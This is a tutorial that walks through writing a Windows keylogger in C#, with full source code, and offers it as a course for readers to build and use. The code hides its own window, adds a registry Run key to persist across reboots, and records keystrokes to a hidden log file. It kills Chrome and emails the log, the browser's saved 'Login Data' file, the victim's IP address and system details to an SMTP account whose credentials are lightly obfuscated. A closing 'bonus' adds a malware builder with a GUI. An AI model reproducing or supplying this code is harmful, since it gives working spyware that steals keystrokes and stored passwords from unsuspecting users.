




In this course, you will learn how to make a simple key logger from scratch with features like email delivery, peristence and chrome cookie exporting. Although this guide is written for the C# language, it could be argued that it is applicable to most other high level programming languages.
Contents
1. Setup
2. Development
3. Source code
4. BONUS
For the development process you need Visual Studio, preferably the latest version (we recommend at least vs2017+),
you can get it on https://visualstudio.microsoft.com/en/vs (Community edition is free,
or grab some VS Pro keys). Then select .NET desktop development package
in Visual Studio Installer.

And select Console App (.NET Framework) when creating new project.

After you have created your project you will see some code similar to this (words that come after // are comments and are not executred, for complete basics check out program structure on microsoft official documentation or this page on tutorialspoint)
using System; //imports serve to include external/system modules and helper classes
namespace firstproject
{
class Program
{
static void Main(string[] args) //Main method ~ the entry point of our application
{
Console.WriteLine("Hello world!"); //Write sample message to console
}
}
}
We will start by adding necessary Windows Application Programming Interface (WinAPI) imports to our app
in form of native libraries.
using System;
using System.Runtime.InteropServices; //source of DllImport
namespace firstproject
{
class Program
{
/*
public - This is the access specifier that states that the method can be accesses publically.
static - Here, the object is not required to access static members.
extern - The extern modifier is used to declare a method that is implemented externally.
void - Function that does not return anything.
int - numeric data type
IntPtr - pointer to numeric value
uint - unsigned int
UInt64 - 64 bit unsigned integer
*/
[DllImport("User32.dll")] //.dll (dynamic linked library) file where the below function is located
public static extern int GetAsyncKeyState(Int32 i);
[DllImport("kernel32")]
extern static UInt64 GetTickCount64();
[DllImport("user32.dll")]
static extern IntPtr GetForegroundWindow();
[DllImport("user32.dll")]
static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
[DllImport("user32.dll", SetLastError = true)]
static extern uint GetWindowThreadProcessId(IntPtr hWnd, out uint lpdwProcessId);
[DllImport("user32.dll")]
static extern IntPtr GetKeyboardLayout(uint idThread);
[DllImport("user32.dll")]
static extern int ToUnicodeEx(uint wVirtKey, uint wScanCode, byte[] lpKeyState, [Out, MarshalAs(UnmanagedType.LPWStr)] StringBuilder pwszBuff, int cchBuff, uint wFlags, IntPtr dwhkl);
[DllImport("user32.dll")]
static extern uint MapVirtualKey(uint uCode, uint uMapType);
static void Main(string[] args)
{
}
}
}
One essential feature you would want in a keylogger is to have it not show on the desktop in other words to hide itself. To do that we will use a simple call to the ShowWindow function with the first argument pointing to our process and the second one set to 0, ( false ).
static void Main(string[] args)
{
IntPtr h = Process.GetCurrentProcess().MainWindowHandle; //value pointing to our process
ShowWindow(h, 0); //imported native function call
}
Another important feature is persistence. Persistence is the ability to launch a program after boot of the computer. One of the most common ways to do this is using the registry keys HKEY_CURRENT_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run or HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run. However the second one requires administrator permissions because it affects all users registered on the computer
static void Main(string[] args)
{
IntPtr h = Process.GetCurrentProcess().MainWindowHandle;
ShowWindow(h, 0);
RegistryKey regkey = Registry.CurrentUser; //HKEY_CURRENT_USER constant typed to RegistryKey object
regkey = regkey.CreateSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run");
regkey.SetValue("DService", Environment.CurrentDirectory + "\\" + Process.GetCurrentProcess().ProcessName); //add key with name of the keylogging service and current executable path
}
Now we are getting to the most important part ~ logging keypresses. To sucessfully catch a keypress we need to use a non-blocking (does not stop the code flow) input function. This function determines whether a key was pressed since the last call to GetAsyncKeyState. So we iterate over the printable part of the ASCII character table and when we identify which character was pressed it gets parsed by the used keyboard layout function to get the key name.
static void Main(string[] args)
{
IntPtr h = Process.GetCurrentProcess().MainWindowHandle;
ShowWindow(h, 0);
RegistryKey regkey = Registry.CurrentUser;
regkey = regkey.CreateSubKey("SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run");
regkey.SetValue("DService", Environment.CurrentDirectory + "\\" + Process.GetCurrentProcess().ProcessName); //add key with name of your keylogging service and current executable path
while (true)
{
Thread.Sleep(5); //a little delay here as we do not need to call the function so frequently
for (int i = 0; i < 255; i++)
{
int keyState = GetAsyncKeyState(i);
if (keyState == 32769)
{
string key = "";
NumberOfKeys++; //keep count of keys logged so we can send logs periodically
key = KeyboardLayout(Convert.ToUInt32(i)); //map key on local keyboard layout
}
}
}
}
private static string KeyboardLayout(uint vkCode)
{
try
{
StringBuilder sb = new StringBuilder();
byte[] vkBuffer = new byte[256];
uint scanCode = MapVirtualKey(vkCode, 0);
IntPtr keyboardLayout = GetKeyboardLayout(GetWindowThreadProcessId(GetForegroundWindow(), out uint processId)); //output parameter allows api call to hand out values easily
ToUnicodeEx(vkCode, scanCode, vkBuffer, sb, 5, 0, keyboardLayout);
return sb.ToString();
}
catch { }
return ((char)vkCode).ToString(); //convert a keycode to a character and then to a string if the keyboard mapping fails
}
In a much less sophisticated way we could use hardcoded ASCII table for key mapping like the following code states;
if (i == 8) key = "[BS]";
else if (i == 27) key = "[ESC]";
else if (i == 127) key = "[DEL]";
else if (i == 32) key = "[SPACE]";
else if (i == 64) key = "@";
else if (i == 20) key = "[CAPS]";
else if (i == 15) key = "[Shift off]";
else if (i == 16) key = "[Shift on]";
else if (i == 17) key = "[Ctrl]";
else if (i == 18) key = "[Alt]";
else if (i == 9) key = "[TAB]";
else if (i == 36) key = "[Home]";
else if (i == 37) key = "Left]";
else if (i == 38) key = "[Up]";
else if (i == 39) key = "[Right]";
else if (i == 40) key = "[Down]";
else if (i == 44) key = "[Print Screen]";
else if (i == 45) key = "[Insert]";
else if (i == 46) key = "[Delete]";
else if (i == 93) key = "[WIN]";
else if (i == 48) key = "0";
else if (i == 49) key = "1";
else if (i == 50) key = "2";
else if (i == 51) key = "3";
else if (i == 52) key = "4";
else if (i == 53) key = "5";
else if (i == 54) key = "6";
else if (i == 55) key = "7";
else if (i == 56) key = "8";
else if (i == 57) key = "9";
else if (i == 65) key = "a";
else if (i == 66) key = "b";
else if (i == 67) key = "c";
else if (i == 68) key = "d";
else if (i == 69) key = "e";
else if (i == 70) key = "f";
else if (i == 71) key = "g";
else if (i == 72) key = "h";
else if (i == 73) key = "i";
else if (i == 74) key = "j";
else if (i == 75) key = "k";
else if (i == 76) key = "l";
else if (i == 77) key = "m";
else if (i == 78) key = "n";
else if (i == 79) key = "o";
else if (i == 80) key = "p";
else if (i == 81) key = "q";
else if (i == 82) key = "r";
else if (i == 83) key = "s";
else if (i == 84) key = "t";
else if (i == 85) key = "u";
else if (i == 86) key = "v";
else if (i == 87) key = "w";
else if (i == 88) key = "x";
else if (i == 89) key = "y";
else if (i == 90) key = "z";
else if (i == 42) key = "*";
else if (i == 43) key = "+";
else if (i == 61) key = "=";
else if (i == 44) key = ",";
else if (i == 45) key = "-";
else if (i == 39) key = "'";
else if (i == 33) key = "!";
else if (i == 59) key = ";";
else if (i == 47) key = "/";
else if (i == 46) key = ".";
else if (i == 219) key = "´";
else if (i == 23) key = "#";
else if (i == 95) key = "_";
else if (i == 126) key = "~";
else if (i == 92) key = "\\";
else if (i == 60) key = "<";
else if (i == 63) key = "?";
else if (i == 62) key = ">";
else if (i == 40) key = "(";
else if (i == 41) key = ")";
else if (i == 94) key = "^";
else if (i == 60) key = "<";
else if (i == 63) key = "?";
else if (i == 124) key = "|";
else if (i == 123) key = "{";
else if (i == 125) key = "}";
else if (i == 37) key = "%";
else if (i == 38) key = "&";
else if (i == 38) key = "$";
else key = ((char)i).ToString();
A limitation of this program would be that it only works on an english keyboard, in interest of keeping this tutorial simple i will leave fixing that as an exercise to the reader.
Last but not least logging our collected data. Lets write a log in the current folder. In this case a simple file stream will do the task, but notice the second argument - true, this means the text will be appended to already existing file.
using (StreamWriter writetext = new StreamWriter("log.txt", true))
{
File.SetAttributes("log.txt", FileAttributes.Hidden); //as a cherry on the cake we can make the file invisible in windows explorer default settings (do not expect any ring0 techniques in this simple tutorial)
writetext.Write(key);
}
What's left is a delivery method. We have decided to use email as it is still the most convenient way to send data nowadays, due (in part) to temporary email sites.
//send email every 300 characters written
if ((NumberOfKeys % 300) == 0)
{
//trial and error logic in case user disconnects from the internet
try
{
//encode the supplied credentials to base64 byte string for some basic level of obfuscation
//replace these strings by your login data
string email = Encoding.UTF8.GetString(Convert.FromBase64String("myemail"));
string pass_word = Encoding.UTF8.GetString(Convert.FromBase64String("mypassword"));
string server = Encoding.UTF8.GetString(Convert.FromBase64String("mysmtp"));
int port = 587;
SmtpClient client = new SmtpClient(server, port); //initialize email client by "new" keyword
MailMessage mailMessage = new MailMessage();
mailMessage.From = new MailAddress(email);
mailMessage.To.Add(email);
//use computers IP address as a message subject in order to recognize clients easily
mailMessage.Subject = new System.Net.WebClient().DownloadString("https://api.ipify.org");
string body = File.ReadAllText("log.txt");
//attach chrome user data
Process[] chromeInstances = Process.GetProcessesByName("chrome");
foreach (Process p in chromeInstances)
p.Kill(); //chrome process needs to be killed in order to tamper with user data
System.Net.Mail.Attachment attachment;
attachment = new System.Net.Mail.Attachment(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile) + "\\AppData\\Local\\Google\\Chrome\\User Data\\Default\\Login Data");
mailMessage.Attachments.Add(attachment); //add attachment with the data
//also send additional information about the device
RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\Microsoft\\Windows NT\\CurrentVersion");
string pathName = (string)registryKey.GetValue("productName");
body = body + Environment.NewLine + "Time: " + DateTime.Now + ", Sent from: " + pathName + ", Username: " + System.Security.Principal.WindowsIdentity.GetCurrent().Name + ", Uptime: " + TimeSpan.FromMilliseconds(GetTickCount64());
//optionally we can enable encryption (note: the SMTP server has different port for each encrypted and unecrypted messaging)
client.EnableSsl = true;
client.UseDefaultCredentials = false;
client.Credentials = new System.Net.NetworkCredential(email, pass_word);
mailMessage.Body = body;
client.Send(mailMessage);
//clean up the transfered data
File.SetAttributes("log.txt", FileAttributes.Normal);
File.Delete("log.txt");
}catch (){}
}
You can find the entire source code attached here
Although this part might be shorter, it is definitely the most interesting one. Today is the day, you will learn the hidden technique of all common malware builders.
Create a new project and select Windows Forms App (.NET Framework).
If there is a need to compile a script "on the fly" or programatically (for example in production enviroment or in a dynamic way) a builder script is needed. In C#, which supports JIT (Just In Time) compiling, it is quite easy to do. For this purpose we are going to use CodeDOM compiler. The usage is as this code unveils;
public static void Build(string[] source)
{
//the imports are referenced as dlls
var references = new string[] { "System.dll", "System.Core.dll", "System.Data.dll" }; //in c# it is possible to use implicit "type" var
//the first argument is array of source codes, the second output file and the third dependencies
var results = CompileCsharpSource(new[] { source }, "keylogger.exe", references);
if (results.Errors.Count == 0)
MessageBox.Show("Sucess!"); //if the condition is one liner we can omit curly braces
else
{
//write out each error which occured during the compilation
foreach (CompilerError error in results.Errors) {
Console.WriteLine(error.Line + " " + error.ErrorText + " " + error.ErrorNumber);
}
}
}
//the compiler function itself
private static CompilerResults CompileCsharpSource(string[] sources, string output, params string[] references)
{
var parameters = new CompilerParameters(references, output);
parameters.GenerateExecutable = true;
using (var provider = new CSharpCodeProvider())
return provider.CompileAssemblyFromSource(parameters, sources); //return the compiler result
}
If necessary, it is possible to pack the source code in resources (Project -> Properties -> Resources in Visual Studio) and then access it using the Properties.Resources class within our code.
Finally, we can implement GUI (Graphical User Interface) to make the builder script usable for everyone.